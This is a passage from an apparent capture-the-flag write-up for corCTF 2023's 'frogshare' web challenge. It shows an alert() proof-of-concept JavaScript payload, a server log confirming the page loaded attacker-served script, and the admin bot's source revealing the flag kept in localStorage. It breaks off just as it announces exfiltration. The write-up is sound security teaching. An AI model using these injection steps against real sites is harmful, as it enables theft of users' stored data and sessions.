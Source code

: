 **payload.js:**
```js
alert(`Payload executed:\nDomain: ${document.domain}`);
```

**Refresh the shared frog page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731162732.png)

**Flask web application:**
```shell
127.0.0.1 - - [31/Jul/2023 16:27:01] "GET /_next/static/chunks/pages/index-3228b8a1fcea6589.js HTTP/1.1" 200 -
```

Let's go!! We now can execute arbitrary JavaScript code!

**In `adminbot.js`, we can see where's the flag is being stored:**
```js
import secrets from './secrets';

const username = "admin";
const { flag, password } = secrets;

export default {
    id: 'frogshare',
    name: 'frogshare',
    timeout: 20000,
    handler: async (url, ctx) => {
        const page = await ctx.newPage();
        await page.goto("https://frogshare.be.ax/login", { waitUntil: 'load' });

        await page.evaluate((flag) => {
            localStorage.setItem("flag", flag);
        }, flag);

        await page.type("input[name=username]", username);
        await page.type("input[name=password]", password);
        await Promise.all([
            page.waitForNavigation(),
            page.click("input[type=submit]")
        ]);
        /* No idea why the f this is required :| */
        await page.goto("https://frogshare.be.ax/frogs?wtf=nextjs", { timeout: 5000, waitUntil: 'networkidle0' });
        await page.waitForTimeout(2000);
        await page.goto(url, { timeout: 5000, waitUntil: 'networkidle0' });
        await page.waitForTimeout(5000);
    },
}
```

As you can see, **the flag is being stored at `localStorage`, with key `flag`.**

**Time to exfiltrate the flag!**

